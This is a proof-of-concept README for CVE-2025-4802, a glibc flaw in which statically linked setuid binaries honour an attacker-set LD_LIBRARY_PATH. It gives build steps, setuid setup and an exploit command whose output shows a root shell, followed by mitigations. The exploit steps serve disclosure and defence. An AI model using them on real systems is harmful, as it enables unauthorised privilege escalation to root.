

# CVE-2025-4802 — Proof of Concept

> **⚠️ Disclaimer:** This repository is for **educational and authorized security research purposes only.** Do not use this exploit against systems you do not own or have explicit permission to test. Misuse may violate laws and regulations.

## CVE Summary

| Field | Details |
|---|---|
| **CVE ID** | [CVE-2025-4802](https://nvd.nist.gov/vuln/detail/CVE-2025-4802) |
| **Affected Software** | GNU C Library (glibc) |
| **Affected Versions** | 2.27 – 2.38 |
| **Vulnerability Type** | Privilege Escalation via Untrusted `LD_LIBRARY_PATH` |
| **Attack Vector** | Local |

## Description

A vulnerability in the GNU C Library (glibc) versions 2.27 through 2.38 allows an attacker to exploit the `LD_LIBRARY_PATH` environment variable in **statically compiled setuid binaries** that call `dlopen()`.

Normally, the dynamic linker sanitizes `LD_LIBRARY_PATH` for setuid programs. However, statically compiled binaries bypass the dynamic linker entirely, so `LD_LIBRARY_PATH` is **never cleared**. When such a binary calls `dlopen()` (directly, or indirectly via `setlocale()` or NSS functions like `getaddrinfo()`), glibc resolves shared libraries using the attacker-controlled `LD_LIBRARY_PATH`, enabling arbitrary code execution with elevated privileges.

## How It Works

1. A **statically compiled** setuid-root binary calls `dlopen("myso.so", ...)` to load a shared object by name (not an absolute path).
2. Because the binary is statically linked, the dynamic linker (`ld-linux.so`) never runs, so `LD_LIBRARY_PATH` is **not sanitized**.
3. An attacker creates a **malicious shared object** (`myso.so`) that exports the same `hello()` symbol but spawns a root shell.
4. The attacker sets `LD_LIBRARY_PATH` to point to the directory containing the malicious library.
5. When the setuid binary runs, it loads the **attacker's library** instead of the legitimate one, executing arbitrary code as root.

## Repository Structure

```
.
├── main.c                          # Vulnerable setuid binary source
├── myso.c                          # Legitimate shared object (safe)
├── evil_library/
│   └── evilso.c                    # Malicious shared object (spawns root shell)
├── proof_of_concept_screenshot.png # Terminal screenshot of the exploit
├── proof_of_concept_video.mp4      # Video walkthrough
├── Makefile                        # Build automation
└── README.md
```

## Prerequisites

- **OS:** Fedora 39 (or any Linux distro with a vulnerable glibc)
- **glibc version:** 2.27 – 2.38 (check with `ldd --version`)
- **Packages:** `gcc`, `make`
- **Root access** to set the setuid bit

## Reproduction Steps

### 1. Build Everything

```bash
make all
```

Or manually:

```bash
# Build the legitimate shared object
gcc -shared -o myso.so -fPIC myso.c

# Build the vulnerable binary (statically linked)
gcc -static -o main main.c -ldl

# Build the malicious shared object
gcc -shared -o evil_library/myso.so -fPIC evil_library/evilso.c
```

### 2. Set the Setuid Bit (requires root)

```bash
sudo chown root:root main
sudo chmod u+s main
```

### 3. Run Normally (safe behavior)

```bash
./main
```

Expected output:

```
 BEGINNING OF MAIN
Hello from the safe shared object!

 END OF MAIN
```

### 4. Exploit with `LD_LIBRARY_PATH` (malicious behavior)

```bash
LD_LIBRARY_PATH=./evil_library ./main
```

Expected output:

```
 BEGINNING OF MAIN
I'm evil now
EXEC TO ROOT SHELL
# whoami
root
```

The binary loads the attacker's `myso.so` from `evil_library/` instead of the legitimate one, spawning a **root shell**.

## Proof of Concept



A video walkthrough is also available: [proof_of_concept_video.mp4](proof_of_concept_video.mp4)

## Mitigation

- **Upgrade glibc** to a patched version (> 2.38)
- **Avoid static linking** for setuid binaries that use `dlopen()`
- Use **absolute paths** in `dlopen()` calls instead of bare library names
- Drop privileges **before** calling `dlopen()`
- Use compiler/linker hardening flags and avoid setuid where possible

## Resources

- [NVD — CVE-2025-4802](https://nvd.nist.gov/vuln/detail/CVE-2025-4802)
